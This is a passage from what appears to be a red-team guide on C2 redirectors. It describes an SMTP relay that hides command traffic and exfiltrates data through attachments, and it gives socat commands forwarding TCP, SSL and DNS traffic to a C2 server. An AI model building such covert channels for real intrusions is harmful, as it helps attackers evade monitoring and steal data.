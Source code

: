 This configuration:

- Sets up Postfix to accept emails for two domains: a legitimate-looking company domain and your C2 domain
- Defines a transport map that routes all emails for the C2 domain to your actual C2 server
- Maintains the appearance of a normal mail server while secretly facilitating C2 communication

SMTP redirectors offer unique advantages:
1. Email traffic is expected in virtually all corporate environments
2. Email communications typically face less stringent real-time inspection
3. The store-and-forward nature of email provides natural operational resiliency
4. Emails can carry substantial data payloads for exfiltration purposes

To enhance your SMTP redirector, consider implementing additional features:
- Content filtering to detect and forward only specially crafted emails
- Encryption/decryption of email bodies
- Subject line encoding schemes for command transmission
- Attachment handling for data exfiltration

### Multi-Protocol Socat Redirectors

For situations requiring quick deployment or versatility across multiple protocols, Socat provides an excellent lightweight option. Socat is a multipurpose relay tool that can create bidirectional data transfers between different types of sockets.

```bash
# TCP redirection
socat TCP-LISTEN:80,fork TCP:192.168.100.10:80

# TCP with SSL termination
socat OPENSSL-LISTEN:443,cert=server.pem,fork TCP:192.168.100.10:443

# UDP redirection (useful for DNS)
socat UDP-LISTEN:53,fork UDP:192.168.100.10:53
```

These simple yet powerful commands establish redirectors for various protocols:

- The first command listens for TCP connections on port 80 and forwards them to the C2 server
- The second command performs SSL termination for HTTPS traffic on port 443
- The third command handles UDP traffic on port 53, suitable for DNS tunneling

The `fork` parameter creates a new process for each connection, allowing the redirector to handle multiple simultaneous clients. While socat lacks the advanced filtering capabilities of dedicated web or DNS servers, its simplicity and flexibility make it an excellent choice for:

1. Rapid deployment scenarios
2. Temporary redirectors
3. Testing new C2 channels
4. Low-resource environments
5. Unusual or custom protocols

For enhanced security with socat redirectors, consider these additional options:

```bash
# Source IP filtering
socat TCP-LISTEN:80,fork,range=192.168.1.0/24 TCP:192.168.100.10:80

# Connection rate limiting
socat TCP-LISTEN:80,fork,max-children=10 TCP:192.168.100.10:80

# Logging all traffic
socat -v TCP-LISTEN:80,fork TCP:192.168.100.10:80 2>>/var/log/socat.log
```
